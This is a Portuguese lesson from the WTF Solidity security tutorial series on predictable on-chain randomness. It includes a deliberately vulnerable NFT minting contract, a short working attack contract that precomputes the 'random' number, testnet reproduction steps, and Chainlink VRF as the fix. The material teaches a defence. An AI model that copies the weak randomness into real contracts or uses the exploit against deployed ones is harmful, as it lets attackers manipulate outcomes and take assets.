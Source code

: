 # WTF Solidity Contrato Seguro: S07. Má Sorteio

Recentemente, tenho revisitado o estudo do Solidity para consolidar detalhes e escrever um "WTF Solidity guia introdutório" para iniciantes (os especialistas em programação podem procurar outros tutoriais). Será atualizado semanalmente com 1-3 aulas.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site Oficial da wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta aula, vamos falar sobre a vulnerabilidade de "Má Sorteio" em contratos inteligentes e métodos de prevenção. Essa vulnerabilidade é comum em projetos de NFT e GameFi, como Meebits, Loots, Wolf Game, entre outros.

## Números Pseudorandômicos

Muitas aplicações na Ethereum requerem o uso de números aleatórios, como para sortear `tokenId` de NFTs, abrir lootboxes, determinar resultados aleatórios em batalhas de GameFi, entre outros. No entanto, devido à transparência e determinismo dos dados na Ethereum, não existe um método para gerar números aleatórios como na maioria das outras linguagens de programação, como `random()`. Portanto, muitos projetos acabam utilizando métodos de geração de números pseudorandômicos na blockchain, como `blockhash()` e `keccak256()`.

Vulnerabilidade de Má Sorteio: Hackers podem calcular previamente os resultados desses números pseudorandômicos e manipulá-los conforme desejarem, como criar NFTs raros específicos em vez de sortear aleatoriamente. Para saber mais, consulte [WTF Solidity guia introdutório aula 39: Números Pseudorandômicos](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

## Exemplo de Má Sorteio

Abaixo, vamos analisar um contrato de NFT com a vulnerabilidade de Má Sorteio: BadRandomness.sol.

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // Construtor, inicializa o nome e o símbolo da coleção de NFTs
    constructor() ERC721("", ""){}

    // Função de cunhagem: um NFT só é cunhado se o luckyNumber for igual ao número aleatório
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // cunhar
        totalSupply++;
    }
}
```

Este contrato possui a função principal `luckyMint()`, onde o usuário deve inserir um número de `0-99`, que, se coincidir com o número pseudorandômico gerado na blockchain, permite cunhar um NFT da sorte. A vulnerabilidade está no fato de que o usuário pode prever com precisão o número aleatório gerado e cunhar o NFT desejado.

Agora, vamos criar um contrato de ataque `Attack.sol`.

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Calcular previamente o número aleatório
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Realizar o ataque usando o luckyNumber
        nftAddr.luckyMint(luckyNumber);
    }
}
```

A função de ataque `attackMint()` recebe o endereço do contrato `BadRandomness` como parâmetro. Nela, calculamos o número aleatório `luckyNumber` e o passamos como argumento para a função `luckyMint()` para realizar o ataque. Como `attackMint()` e `luckyMint()` são chamados no mesmo bloco, o `blockhash()` e o `block.timestamp` são os mesmos, gerando o mesmo número aleatório.

## Reprodução no Remix

Como o Remix com Remix VM não suporta a função `blockhash()`, é necessário implantar os contratos na testnet Ethereum para reproduzir o ataque.

1. Implantar o contrato `BadRandomness`.

2. Implantar o contrato `Attack`.

3. Passar o endereço do contrato `BadRandomness` como parâmetro para a função `attackMint()` do contrato `Attack` e executar o ataque.

4. Usar a função `balanceOf` do contrato `BadRandomness` para verificar o saldo de NFTs do contrato de ataque e confirmar o sucesso do ataque.

## Métodos de Prevenção

Normalmente, utilizamos números aleatórios gerados fora da blockchain por meio de projetos de oráculos, como o Chainlink VRF, para prevenir esse tipo de vulnerabilidade. Esses números aleatórios são gerados fora da blockchain e depois enviados para a mesma, garantindo que sejam imprevisíveis. Para saber mais, consulte [WTF Solidity guia introdutório aula 39: Números Pseudorandômicos](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

## Conclusão

Nesta aula, abordamos a vulnerabilidade de Má Sorteio em contratos inteligentes e apresentamos um método simples de prevenção: utilizar números aleatórios gerados fora da blockchain por meio de projetos de oráculos. Projetos de NFT e GameFi devem evitar o uso de números pseudorandômicos na blockchain para sorteios, a fim de evitar possíveis ataques de hackers.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->